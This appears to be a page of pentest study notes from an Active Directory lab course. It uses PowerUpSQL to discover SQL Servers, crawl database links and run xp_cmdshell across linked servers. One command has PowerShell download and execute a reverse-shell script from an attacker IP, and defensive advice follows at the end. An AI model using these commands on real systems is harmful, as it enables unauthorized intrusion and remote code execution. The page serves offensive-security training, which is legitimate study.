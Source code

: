 ## Discovery (SPN Scanning)
`Get-SQLInstanceDomain`(returns all, maybe not active)
## Check Accessibility
`Get-SQLConnectionTestThreaded`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose`(returns the active ones)
## Gather Information
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`(returns the active ones)
## A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. Database links work even across forest trusts.
## Searching Database Links, Look for links to remote servers
`Get-SQLServerLink -Instance dcorp-mssql -Verbose`
## Crawl all the Database Links and find the way to success
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose`
## Executing Commands on all machines in the chain in order to see if any of them will give us a result back so we will have cmnd exec. When u find one machine,Use the -QuertyTarget parameter to run Query on a specific instance.(Have in mind that if you have admin privs one a database, you can do several things there, instead of just getting a rev shell and run whoam /all (get caught) and find priv esc)
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"`
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql`
`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1'')"'`

# What we learned so far
## Reduce the number of Domain Admins in your environment.
## Do not allow or limit login of DAs to any other machine other than the Domain Controllers. If logins to some servers is necessary, do not allow other administrators to login to that machine.
## (Try to) Never run a service with a DA. Credential theft protections(Credential Guard,Protected users group) are not protecting against extracting credential from the registry, only from lsass.
• Set "Account is sensitive and cannot be delegated" for DAs.
